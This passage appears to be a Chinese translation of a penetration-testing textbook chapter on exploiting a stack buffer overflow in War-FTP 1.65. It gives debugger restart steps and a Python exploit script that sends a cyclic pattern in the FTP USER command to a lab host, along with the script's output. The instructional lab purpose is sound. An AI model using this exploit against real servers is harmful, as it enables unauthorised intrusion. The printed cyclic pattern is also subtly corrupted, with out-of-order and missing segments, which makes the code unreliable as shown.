 我们将用在示例 17-2 中显示的唯一模式替换掉这一长串的* A *。但在再次运行漏洞利用之前，我们需要从上次崩溃中重新启动 War-FTP。在 Immunity 调试器中，点击**调试** ▸ **重新启动**，然后按下**播放**按钮并点击闪电图标，指示 War-FTP 开始监听网络。（每次 War-FTP 崩溃后需要重新启动时，都需要按照这些步骤进行。）或者，您可以关闭 Immunity 调试器，手动重新启动 War-FTP，然后将新进程附加到调试器中。将漏洞利用中的缓冲区值替换为示例 17-2 中的模式，并用引号将其括起来，使其成为 Python 中的字符串，如示例 17-3 所示。

### 注意

如果 War-FTP 因*未知的用户数据库格式*错误而拒绝重新启动，找到并删除 War-FTP 在桌面上创建的*FtpDaemon.dat*和/或*FtpDaemon.ini*文件。这应该能解决问题，War-FTP 应该能正常启动。

示例 17-3. 带有循环模式的漏洞利用

```
  root@kali:~# **cat ftpexploit**
  #!/usr/bin/python
  import socket
❶ buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2
  Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8
  Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4
  Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0
  Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6
  Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
  Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ap3Ar7Ar8
  Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4
  Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Ax2Ax3Ax4
  Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0
  Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7
  Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3
  Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9
  Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5
  Bk"
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect=s.connect(('192.168.20.10',21))
  response = s.recv(1024)
  print response
  s.send('USER ' + buffer  + '\r\n')
  response = s.recv(1024)
  print response
  s.send('PASS PASSWORD\r\n')
  s.close()
```

现在重新运行漏洞利用，使用从❶开始的生成模式，替换掉 1,100 个* A *。

```
root@kali:~# **./ftpexploit**
220- Jgaa's Fan Club FTP Service WAR-FTPD 1.65 Ready
220 Please enter your user name.
331 User name okay, Need password.
```

在使用 Metasploit 的模式运行漏洞利用后，回到 Immunity 调试器，如图 17-7 所示，查看 EIP 中包含的值，并找出我们在攻击字符串中覆盖返回地址的位置。
